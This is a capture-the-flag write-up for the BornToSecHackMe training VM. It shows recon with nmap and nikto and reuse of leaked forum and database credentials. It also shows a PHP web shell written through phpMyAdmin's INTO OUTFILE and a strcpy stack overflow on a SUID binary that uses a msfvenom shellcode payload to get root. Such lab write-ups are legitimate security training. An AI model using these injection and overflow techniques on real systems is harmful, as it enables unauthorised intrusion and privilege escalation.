

# Writeup4 - suExec
# Recon
## Scans
### Scan network to detect the VM IP

To investigate the VM we will first need to find its IP.    

As we are connected to the same network interface (en0) as the VM, 
we can scan the network for available hosts using nmap.

```
$> nmap -sn -PE -v INTERFACE_IP/24
...
Nmap scan report for 192.168.1.239 [host down]
Nmap scan report for 192.168.1.240 [host down]
Nmap scan report for BornToSecHackMe (192.168.1.241)
Host is up (0.0029s latency).
Nmap scan report for Ordi-De-Moi (192.168.1.242)
Host is up (0.0028s latency).
Nmap scan report for 192.168.1.243 [host down]
Nmap scan report for 192.168.1.244 [host down]
Nmap scan report for 192.168.1.245 [host down]
...
```

In our case, the VM DNS name is `BornToSecHackMe` and its IP is: `192.168.1.241`

---------------

### Service discovery
Now that we have the machine's IP, we can use nmap another time to scan services that
might run on it
```
$> sudo nmap -O -sV BornToSecHackMe
...
Not shown: 994 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/ssl  Apache httpd (SSL-only mode)
993/tcp open  ssl/imap Dovecot imapd
MAC Address: 08:00:27:37:26:C5 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.16
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...
```

We have successfuly found a collection of services that may be used as entrypoints.

---------------

### Scanning the website 

To make the first recon of the website we chose to use `nikto`.

```
$> nikto -host https://BornToSecHackMe
- Nikto v2.1.6
...
+ Server: Apache/2.2.22 (Ubuntu)
...
+ Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.20
...
+ OSVDB-3092: /forum/: This might be interesting...
...
+ OSVDB-3093: /webmail/src/read_body.php: SquirrelMail found
...
+ /phpmyadmin/: phpMyAdmin directory found
...
```

We have found an Apache server with a php server that serves phpmyadmin, a forum and a webmail application.


# Penetration


## Web site
We access the webserver with a web browser at this [URL:](https://BornToSecHackMe/) to read the webpage.   

---------------

### MyLittleForum (/forum)

Here we can notify some things:
- This forum is powered by MyLittleForum
- There are some posts
- There is a user list

One post posted by the user lmezard contains connection logs. In these, we can find a password typed by error in the username field :
```
!q\]Ej?*5K5cy*AJ
```

We then tried to login on the forum as lmezard with the precedent password and it worked successfully, Victory !

Here we can get her email `laurie@borntosec.net` in her profile section.

---------------

### SquirelMail (/webmail/src/index.php)

Now that we have got an email and a password from an user of the forum, we tried to login with those on the webmail page and again it worked like a charm ! 

We then found an interesting mail concerning database access that gave us those credentials :
```
user: root 
password: Fg-'kKXBj87E:aJ$
```
We can then try to connect to phpmyadmin using those.

---------------

### PhpMyAdmin (/phpmyadmin)

Connect as root on phpmyadmin.

---------------

### suExec
Apache version 2.2.22 can be vulnerable to `suExec` with a bad configuration followinf this [example](https://www.exploit-db.com/exploits/27397). For this we need to create a file:     
We can use the SQL console on phpmyadmin to write a file into `/forum/templates_c`.

We will used this php script to read remote files with the same permissions as the webserver:
```php
<?php
        system("ln -sf / test99.php");
        symlink("/", "test99.php");
?>
```

We then injected it using this script on the phpmyadmin sql console:
```sql
SELECT "<?php system('ln -sf / test99.php');symlink('/', 'test99.php'); ?>"
into outfile "/var/www/forum/templates_c/test99.php";
```

Navigate to `https://BornToSecHackMe/forum/templates_c/test99.php/home/LOOKATME/passwd`.

You whould now connect to `ftp` as `lmezard`.


## FTP server

Connect to the FTP server with the previous credentials.    

We now have access to all lmezard's files.


# Privileges escalation


## lmezard's challenge

Through ftp we have found a some instructions in the README and an archive called `fun` that we have downloaded with filezilla and exctracted in our machine using:
```bash
$> tar -xf fun
```
This gives us a folder named `ft_fun` containing a bunch of `.pcap` files.
This extention is a trap though, instead they are C source code files.
Each one contains a comment indicating it's index to sort them to then recreate the original source code.    

We have made a script to resolve this challenge and retrieve the password for the user `laurie` as we have seen in the README.

We then found the password for laurie by executing that script.
```
$> ./sh lmezard-challenge.sh
Iheartpwnage
```
Then hashed it using sha256
```bash
$> echo -n "Iheartpwnage" | shasum -a 256 | cut -d ' ' -f 1
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```
We can now connect to ssh as user laurie.
```
$> ssh laurie@BornToSecHackMe
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@BornToSecHackMe's password:
laurie@BornToSecHackMe:~$
```
We now have a proper ssh access to the machine !


## Challenges suite

---------------
### laurie's challenge
Into laurie's home we found the next challenge, we have a file named `bomb` and a README telling us to diffuse the bomb to construct thor's password.

We then checked the file type of `bomb` and found that it is an ELF 32-bit executable.
```
$> file bomb
bomb: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.0.0, not stripped
```

To inspect the behaviors of this executable we disassembled it with objdump :
```
objdump -D -s -S -t --line-numbers -M intel bomb -o bomb.decompiled 
```

Now by reading this output we can reverse all the stages (represented by several `phase_X` functions) 

To help our investigation we used the demo version of Hopper disassembler to get an approximated C version of bomb.

We found that all stages can be solved by using the following content : 
```
Public speaking is very easy.
1 2 6 24 120 720
7 b 524
9
opekmq
4 2 6 3 1 5
```

And we can access and solve the secret phase by adding the following content :
```
Public speaking is very easy.
1 2 6 24 120 720
1 b 214
9 austinpowers
opekmq
4 2 6 3 1 5
1001
```

Following the README's instructions we can concatenate all those passwords into thor's password.

Du to a mistake in the subject, the password that should have been
```
Publicspeakingisveryeasy.126241207201b2149opekmq42315
                                                  ^^
```
is now
```
Publicspeakingisveryeasy.126241207201b2149opekmq426135
                                                   ^^
```    

We can now connect as thor user to access the next challenge.
```
$> ssh thor@BornToSecHackMe
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
thor@BornToSecHackMe's password:
thor@BornToSecHackMe:~$
```

---------------
### thor's challenge

Now we have an ASCII file named 'turtle' in reference to turtle.py a software used that draw shapes dynamicaly with a little turtle.

We modified a little this file to match the turtle's syntax
and execute it online at https://trinket.io/challenges/bullseye.html

And here is the result:


From this ouput we can read 5 letters:
S L A S H

If we md5 encode those caracters we can obtain zaz's password according to the README.

```bash
$> echo -n "SLASH" | md5sum
646da671ca01bb5d84dbb5fb2238dc8e  -
```

We can now connect as zaz user to access the next challenge.
```
$> ssh zaz@BornToSecHackMe
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
zaz@BornToSecHackMe's password:
zaz@BornToSecHackMe:~$
```
---------------
### zaz's challenge
In this challenge we have a SUID root file named `exploit_me` that we can execute.
```
zaz@BornToSecHackMe:~$ file exploit_me
exploit_me: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x2457e2f88d6a21c3893bc48cb8f2584bcd39917e, not stripped
```

Let's get some more clues:
```
$> strings exploit_me
[...]
_fini
strcpy@@GLIBC_2.0
__DTOR_END__
__data_start
puts@@GLIBC_2.0
__gmon_start__
[...]
```

The most interesting thing obtained here is the usage of strcpy that is vulnerable (RTFM) to stack overflow attacks (See this [link](https://0xrick.github.io/binary-exploitation/bof5/) for an exemple).

This in mind we can now disassemble this executable with objdump:

```bash
$> objdump -D -s -S -t ./exploit_me
```

From this we can retrieve the following C code:
```C
# include <string.h>
int main(int ac, char**argv)
{
    char str[140];
    if (ac <= 1)
        return 1;
    strcpy(str, argv[1]);
    puts(str);
    return 0;
}
```

From the objdump output we must get the address just before leaving the main section.
```
08048464 <main>:
[...]
80484d2:	c9                   	leave

```

With this address in hand we can start the exploit with `gdb`:
```bash
$> gdb ./exploit_me
```

Set the program argument like this:
```
(gdb) set args "AAAAAAAAAAAAAAA"
```

We set a breakpoint in gdb to stop the execution at the end of main section
```
(gdb) break *Ox80484d2
```

To make our input string we will use two major commands:

- display top stack with:
```
(gdb) x/64wx $esp
0xbffff610:	0xbffff620	0xbffff889	0x00000001	0xb7ec3c49
0xbffff620:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff630:	0xbf004141	0xb7fdd000	0x00000000	0xb7e5ec73
0xbffff640:	0x08048241	0x00000000	0x00ca0000	0x00000001
0xbffff650:	0xbffff874	0x0000002f	0xbffff6ac	0xb7fd0ff4
0xbffff660:	0x08048440	0x080496e8	0x00000002	0x080482dd
0xbffff670:	0xb7fd13e4	0x0000000d	0x080496e8	0x08048461
0xbffff680:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff690:	0xb7fed280	0x00000000	0x08048449	0xb7fd0ff4
0xbffff6a0:	0x08048440	0x00000000	0x00000000	0xb7e454d3
0xbffff6b0:	0x00000002	0xbffff744	0xbffff750	0xb7fdc858
0xbffff6c0:	0x00000000	0xbffff71c	0xbffff750	0x00000000
0xbffff6d0:	0x0804820c	0xb7fd0ff4	0x00000000	0x00000000
0xbffff6e0:	0x00000000	0x9e06e153	0xa942a543	0x00000000
0xbffff6f0:	0x00000000	0x00000000	0x00000002	0x08048340
0xbffff700:	0x00000000	0xb7ff26b0	0xb7e453e9	0xb7ffeff4
```
Note: (0x41 = 'A') We can see our input at adress 0xbffff620.
- Display frame's infos
```
(gdb) info frame
Stack level 0, frame at 0xbffff6b0:
 eip = 0x8048436 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff6a8, args:
 Locals at 0xbffff6a8, Previous frame's sp is 0xbffff6b0
 Saved registers:
  ebp at 0xbffff6a8, eip at 0xbffff6ac
```

### find segfault's offset
calculate the difference between addresses in gdb:     
ex: p/d adress_eip - address_inputStart
```
(gdb) p/d  0xbffff6ac - 0xbffff620
```
The difference is an offset of 140.


From here we must generate a x86 payload that will open us a shell as root. 

### make a payload with msfvenom

To generate the payload, we used a famous payload generator called `msfvenom`.    
Choose your payload with:
```bash
$> msfvenom --list payloads
```
We will used the paylaod: `linux/x86/exec`

Choose your options with:

```bash
$> msfvenom -p payload --list-options
```
We will set several options and generate our payload with:
```bash
$> msfvenom -p linux/x86/exec -n 32 -f raw -o payload.txt PrependSetuid=true PrependSetresuid=true VERBOSE=true NullFreeVersion=true CMD="/bin/bash -p"
```

Now we can find our payload in the file `payload.txt`.

#### Final input

To get our final input we will concatenate all those things:     
Set args like this:    
```
(gdb) set args "$(python -c 'print "A" * OFFSET')$(printf INPUTSTARTADDRESS)$(python -c 'print "\x90" * NOP_SIZE')$(cat PAYLOAD_FILE)"
``` 


Replacing all of it and we have our final input string that should give us a shell without extra-privileges because of gdb removing SUID permissions :
```
(gdb) set args "$(python -c 'print "A" * 140')$(printf "\xf0\xf5\xff\xbf")$(cat payload.txt)"
``` 

But if we run it ouside gdb, in a standard shell, we get a root shell:
```
zaz@BornToSecHackMe:~$ ./exploit_me "$(python -c 'print "A" * 140')$(printf "\x20\xf6\xff\xbf")$(python -c 'print "\x90" * 64')$(cat payload.txt)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ����������������������������������������%-,�H���1�1��㰤̀1�jX̀1�������ֹ@�Ԩ����B$/f'���
                       Rfh-c����
                                �Rh//shh/bin��RVWS��̀�����/bin/bash -p
root@BornToSecHackMe:/home/zaz# id
uid=0(root) gid=1005(zaz) groups=0(root),1005(zaz)
```

And now we have a root shell !!

